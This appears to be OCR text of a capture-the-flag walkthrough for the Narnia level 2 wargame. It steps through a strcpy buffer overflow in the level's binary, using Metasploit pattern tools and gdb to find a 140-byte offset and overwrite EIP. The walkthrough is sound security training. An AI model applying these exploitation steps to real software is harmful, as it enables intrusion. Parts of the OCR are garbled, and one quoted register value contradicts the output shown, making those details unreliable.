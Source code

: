 ● cd /narnia/
● cat narnia2.c
Looking at the C code, we see the following:
● char buf[128];
● if(argc == 1){
● printf("Usage: %s argument\n", argv[0]);
● exit(1);
● }
● strcpy(buf,argv[1]);
● printf("%s", buf);
By looking at the code, we see that it takes an argument and copies it into buf. We see that there is a
char buf of 128 bytes, so let’s start by sending 200 characters:
● narnia2@melinda:/narnia$ ./narnia2 `python -c 'print "A" * 200'`
● Segmentation fault
We just verified that sending 200 characters causes the application to have a segmentation fault. We
need to identify how many bytes before we overwrite EIP. We can do this with a Metasploit module
called pattern_create.rb. This module creates a unique string and in our example below, we will
create a string of 200 bytes. Since this string never repeats, we can identify exactly where our
program overflows EIP.
● /usr/share/metasploit-framework/tools/pattern_create.rb 200
● Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9ANow, let’s run our new custom unique string through narnia2 to see how many bytes it takes before
we cause a segmentation fault. To see the exact results of our segmentation fault, we will have to use
a debugger. By default, Linux systems have a debugger called gdb. Although it isn’t the easiest
debugger to use, it is extremely powerful:
● gdb ./narnia2 -q
● run `python -c 'print
"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9AThe result of the query is:
Narnia 2 – Exploit
● Program received signal SIGSEGV, Segmentation fault.
● 0x37654136 in ?? ()
The output from our command is 0x37634136. We need to look in our original string to find that exact
value. To find the exact number of bytes where the segment fault was caused, we can use Metasploit’s
pattern_offset.rb:
● /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37654136
● [*] Exact match at offset 140
This shows that after 140 characters, we can control EIP. To verify this, we can run narnia2 with an
input of 140 bytes and we should be able to overwrite EIP with an extra 4 bytes. We are going to use
a debugger to watch it happen in memory.
The output should look like the following:
● cd /narnia
● gdb ./narnia2 -q
● (gdb) run `python -c 'print "A" * 140 + "B" * 4'`
○ Starting program: /games/narnia/narnia2 `python -c 'print "A" * 140
+ "B" * 4'`
○ Program received signal SIGSEGV, Segmentation fault.
○ 0x42424242 in ?? ()
● (gdb) info registers
○ eax 0x0 0
○ ecx 0x0 0
○ edx 0xf7fcb898 -134432616
○ ebx 0xf7fca000 -134438912
○ esp 0xffffd640 0xffffd640
○ ebp 0x41414141 0x41414141
○ esi 0x0 0
○ edi 0x0 0
○ eip 0x42424242 0x42424242